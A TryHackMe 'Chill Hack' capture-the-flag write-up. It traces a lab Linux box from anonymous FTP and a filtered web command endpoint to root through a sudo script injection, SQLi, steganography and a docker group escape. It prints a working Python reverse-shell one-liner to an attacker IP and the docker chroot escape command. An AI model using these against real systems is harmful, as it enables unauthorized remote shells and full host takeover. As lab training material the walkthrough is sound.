# TryHackMe - Chill Hack

**OS:** Linux

Chill Hack has an unusually long privilege escalation chain. Anonymous FTP hints at command filtering on a web endpoint, which gives the initial foothold as `www-data`. A sudo rule allows running a shell script as a second user, and that script has a command injection in its `read` input. Getting to root requires forwarding a local port, bypassing a SQL injection login, extracting a password from steganography, and exploiting docker group membership.

| Field | Value |
|---|---|
| Platform | TryHackMe |
| Target | `<target-ip>` |
| Initial Access | Command-filter bypass on exposed web execution endpoint |
| Privilege Escalation | Sudo/lateral movement chain to Docker group breakout |
| Final Access | root |

---

## Attack Path

1. Recon identified the exposed services and separated useful attack surface from noise.
2. The first break was Command-filter bypass on exposed web execution endpoint.
3. Post-exploitation enumeration exposed Sudo/lateral movement chain to Docker group breakout.
4. The final privileged context was reached and the required proof was captured.

---

## Recon

### FTP and Web Enumeration

The FTP server allowed anonymous login. The only file present was `note.txt`, which mentioned filtering was in place on something.





Directory brute-forcing found `/secret/`, which exposed a command execution interface. Basic filtering was in place blocking obvious shell characters.



---

## Initial Access

The filter blocked common shell operators but a Python reverse shell worked:

```bash
export RHOST="10.13.2.223";export RPORT=80;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```



### Lateral Movement to apaar

`sudo -l` showed `www-data` could run `.helpline.sh` as the user `apaar` without a password. Inspecting the script revealed the variable `msg` was populated via `read` (user input) and then used directly in a command - a classic command injection via unquoted variable.





Supplying `/bin/bash` as the input to `msg` spawned a shell as `apaar`.



---

## Privilege Escalation

### Port Forward and Web App Access

`netstat` showed port 9001 listening on localhost only.



To reach it from the attacking machine, an SSH key pair was generated, the public key was added to apaar's `authorized_keys`, and an SSH reverse port forward exposed port 9001 locally.









### SQLi, Steganography, and Credential Recovery

The login page on port 9001 was bypassed with a basic SQL injection. The authenticated page hinted at steganography. Downloading the page image and running `steghide` extracted a password-protected zip file hidden inside it. `zip2john` generated a hash and cracked it against rockyou.








The zip contained `source_code.php`, which had a username and a base64-encoded password hardcoded in it.





Decoding the password and logging in as `anurodh` worked.





### Docker Group Breakout

`anurodh` was a member of the `docker` group. The GTFOBins docker escape mounts the host filesystem into a privileged container:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

This gave a root shell on the host.



---

## Summary

Chill Hack layers multiple techniques in a single chain: command injection bypass, sudo lateral movement, SSH port forwarding, SQLi, steganography, credential extraction from source code, and docker group abuse. Each step is straightforward in isolation, but the chain is long enough to require methodical enumeration at each stage.

**Key takeaway:** Docker group membership is functionally equivalent to unrestricted root access - any user in the docker group can mount the host filesystem into a privileged container and escape to root.

---

## Root Cause

The demonstrated path worked because the target exposed a concrete bridge from reconnaissance to execution: Command-filter bypass on exposed web execution endpoint. The chain became critical when Sudo/lateral movement chain to Docker group breakout converted that foothold into root.

## Impact

Successful exploitation reached root. That access is enough to read sensitive files, execute commands in the privileged context, collect credentials, and use the host or domain position as a pivot if similar trust relationships exist elsewhere.

## Remediation

- Remove or harden the specific exposure used for initial access: Command-filter bypass on exposed web execution endpoint.
- Fix the privilege boundary that enabled escalation: Sudo/lateral movement chain to Docker group breakout.
- Rotate credentials observed or replayed during the chain and search for reuse on adjacent systems.
- Validate the fix by safely replaying the enumeration steps that originally exposed the weakness.

## Detection Opportunities

- Alert on suspicious access patterns against the service that enabled initial access.
- Correlate successful authentication, process creation, and privilege-boundary events after enumeration activity.
- Monitor for the specific escalation signal: Sudo/lateral movement chain to Docker group breakout.

## Lessons Learned

- The useful lesson is the connection between Command-filter bypass on exposed web execution endpoint and Sudo/lateral movement chain to Docker group breakout, not just the individual command that worked.
- Preserve the observations that explain why each pivot made sense.
- Write remediation from the root cause of each step so the report reads like both an operator narrative and a defender action plan.
